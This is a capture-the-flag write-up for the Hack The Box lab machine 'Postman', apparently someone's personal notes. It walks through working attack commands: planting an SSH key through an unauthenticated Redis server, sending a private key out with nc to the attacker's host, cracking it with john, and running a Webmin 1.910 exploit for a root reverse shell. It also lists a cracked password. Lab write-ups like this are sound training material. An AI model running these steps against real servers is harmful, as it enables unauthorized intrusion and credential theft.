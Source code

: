 # Summary



## about target

tip:  10.129.17.67

hostname: Postman

Difficulty:  Easy



## about attack

+ redis exploit, ssh key login.
+ Privesc, running program as root; 





**attack note**

```bash
Postman / 10.129.17.67 

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 46834ff13861c01c74cbb5d14a684d77 (RSA)
|   256 2d8d27d2df151a315305fbfff0622689 (ECDSA)
|_  256 ca7c82aa5ad372ca8b8a383a8041a045 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.910

----Interesting


----Enum

-- http 80

-- webmin 10000
webmin 1.910 
exploit, need creds. https://github.com/roughiz/Webmin-1.910-Exploit-Script



-- redis 6379
redis_version:4.0.9
exploit: https://gist.github.com/ziednamouchi/d9b57abc1834d7ce3cf43d4d74479baa

---- exploit 



---- root 
login, Matt:computer2008
modify the script, sid=

python webmin_exploit.py --rhost 10.129.17.67 --lhost 10.10.14.55 -p computer2008 -u Matt --lport 9001 -s True


```







# Enum

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 46834ff13861c01c74cbb5d14a684d77 (RSA)
|   256 2d8d27d2df151a315305fbfff0622689 (ECDSA)
|_  256 ca7c82aa5ad372ca8b8a383a8041a045 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.910
```



## http 80

dir scan, nothing found.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip -o gobuster.log  -x txt,html
```

Webmin, 1.910

Exploit: need creds. https://github.com/roughiz/Webmin-1.910-Exploit-Script



## redis

version, 4.0.9; 

Exploit: https://gist.github.com/ziednamouchi/d9b57abc1834d7ce3cf43d4d74479baa

Basic enum, nothing found.

```bash
info
client list
config get * 

## dump db
select 1
keys *
```



# shell as redis

Exploit, https://gist.github.com/ziednamouchi/d9b57abc1834d7ce3cf43d4d74479baa

generate ssh key, save to redid dir via redid save.

```bash
## generate key
ssh-keygen -t rsa
(echo -e "\r\n"; cat id_rsa.pub; echo -e "\r\n") > spaced_key.txt # echo to file
cat spaced_key.txt | redis-cli -h 10.129.17.67 -x set ssh_key         # import file to redis

## save public key to authorized_keys 
redis-cli -h 10.129.17.67
config set dir /var/lib/redis/.ssh
OK

config set dbfilename "authorized_keys"
OK

save
OK

## ssh to target
ssh -i id_rsa redis@$tip
```

got redis shell.

![image-20221121130101314](./images/image-20221121130101314.png)



# Privesc



## loca enum

found matt's private key, /opt

![image-20221121131555110](./images/image-20221121131555110.png)



Transfer and crack.

```bash
nc -nvlp 9001 > matt_key

nc 10.10.14.55 9001 < id_rsa.bak

ssh2john matt_key > matt_key.hash
john --wordlist=/usr/share/wordlists/rockyou.txt matt_key.hash
```

Password, computer2008

ssh login via private key, not work.

Check sshd_config, deny user matt.

![image-20221121131845625](./images/image-20221121131845625.png)



su to matt with password. got user.txt.

```bash
su Matt
```



running program, webmin run as root.

Try login to webmin with credential, Matt:computer2008, log in.



## system

exploit webmin 

https://github.com/roughiz/Webmin-1.910-Exploit-Script

```bash
python webmin_exploit.py --rhost 10.129.17.67 --lhost 10.10.14.55 -p computer2008 -u Matt --lport 9001 -s True
```

ssl error.

![image-20221121132151217](./images/image-20221121132151217.png)



Login via browser and modify the sid in the scripts.

comment out the login code, add value to sid. 

![image-20221121132256126](./images/image-20221121132256126.png)

```bash
python webmin_exploit.py --rhost 10.129.17.67 --lhost 10.10.14.55 -p computer2008 -u Matt --lport 9001 -s True
```

got root.

![image-20221121132527920](./images/image-20221121132527920.png)

## proof

```bash


```



